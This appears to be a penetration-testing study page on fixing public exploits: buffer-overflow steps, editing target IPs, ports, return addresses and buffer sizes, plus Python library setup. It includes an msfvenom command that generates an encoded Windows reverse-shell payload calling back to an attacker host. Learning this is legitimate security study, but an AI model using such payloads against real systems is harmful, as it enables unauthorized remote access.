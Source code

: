# Fixing Exploits

## Fixing Exploits <a id="debugging"></a>

If we have to fix an exploit then we must consider the following options:

1. Can we replicate the environment of our target?
2. Are there some other public exploits in which we can gather information?
3. Do some public exploits are already fixed for our needs?

The best option is to replicate the environment of the target to locally test and fix the exploit, however, sometimes we don't have enough information of the target environment so we have to look for alternatives solutions like gathering information from other public exploits of the same software and version.

## Fixing Memory Corruption Exploits <a id="debugging"></a>

The process of a simple stack buffer overflow can include these steps:

1. Create a buffer to trigger the overrun/overflow.
2. Overwrite the return address on the stack to take control of the IP register.
3. Add a payload to the buffer without bad chars.
4. Add a return address like JMP/ESP

If we need to fix a memory corruption exploit like a stack buffer overflow we need to consider the steps above in order to successfully fix the exploit.

### Inspecting Headers

In some languages like C, we will see some exploits that have some headers that indicate that exploit should be compiled on another operating system, this is where cross-compiling comes into place.

{% embed url="https://wixnic.gitbook.io/hacknotes/exploitation/cross-compiling-exploits" %}

### Changing IP Addresses

When using remote exploits, in other words, exploits that connect to the target via a socket. We will most likely see some IP address defined in a variable and we need to change that IP address to the address of our target.

**Example:**

```text
# Before
target = 192.168.50.50

# After
target = 10.10.10.10
```

### Changing Port Numbers

When using remote exploits, in other words, exploits that connect to the target via a socket. We will most likely see some port number defined in a variable and we need to change that port number to the port of our target.

**Example**:

```text
# Before
port = 80

# After
port = 8080
```

### Changing Payloads

Memory corruption exploits more often come up with a pre-defined payload and we need to change the payload to another one that executes a reverse shell or a bind shell so that we can establish a connection to the target.

We can use **msfvenom** to generate a payload or we can create our own payload manually:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.11.13 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

Then we can change the payload with the new generated or manually created payload:

```text
payload = """"
shellcode_here
"""
```

### Changing Return Address

Sometimes we're faced with exploits that use external files like **.dll** as a return address but our target software may not contain those files so we need to modify that return address with an existing address.

**Example**:

```text
#Before
retn = "\xcb\x74\x75\x53"

# After
retn = "\x0c\x84\x09\x08" # 0x0809840c
```

### Changing the Overflow Buffer

A really important detail when modifying memory corruption exploits is the buffer itself. We need to make sure that the overflow buffer has the amount required of the offset in bytes.

**Example**:

```text
# Before
buffer_size = 590

# After
buffer_size = 591
```

### Executing Windows Binaries in Linux

If we have to execute a Windows binary in our Linux host, we will need a tool like **wine**. 

**Example**:

```text
wine exploit_name.exe
```

## Fixing Web Exploits

### Changing URL

### Changing File Paths

### Changing IP Addresses

### Changing Port Numbers

### Changing Payloads

### Changing Proxies

## Fixing Tab Errors <a id="fixing-tab-errors"></a>

This one is relatively simple and every programmer or developer should know about it. Just make sure that the exploit has the same amount of space/tabs through the code, in other words, consistency.

### Spaces vs Tabs

Spaces

* Spaces are consistent through different code editors
* Spaces are not precise
* Spaces are slow
* Spaces don't actually save space
* Files are larger \( 4 Spaces &gt; 1 Tab \)

Tabs

* Tabs can appear differently in code editors
* Tabs are precise
* Tabs are just faster, just hit that Tab key
* Tabs save more space
* Files are smaller \( 4 Spaces &gt; 1 Tab \)

## Installing Missing Libraries <a id="installing-missing-libraries"></a>

Another common issue you may face is missing libraries or modules. 

### Python3 Install Libraries

Ensure that pip is available:

```text
# Unix/Linux
python3 -m pip --version

# Windows
py -m pip --version
```

If `pip` isn’t already installed, then first try to bootstrap it from the standard library:

```text
# Unix/Linux
python3 -m ensurepip --default-pip

# Windows
py -m ensurepip --default-pip
```

While `pip` alone is sufficient to install from pre-built binary archives, up to date copies of the `setuptools` and `wheel` projects are useful to ensure you can also install from source archives:

```text
# Unix/Linux
python3 -m pip install --upgrade pip setuptools wheel

# Windows
py -m pip install --upgrade pip setuptools wheel
```

Install modules with:

```text
pip3 install module_name
pip install module_name
```

Reference:

{% embed url="https://packaging.python.org/tutorials/installing-packages/" %}



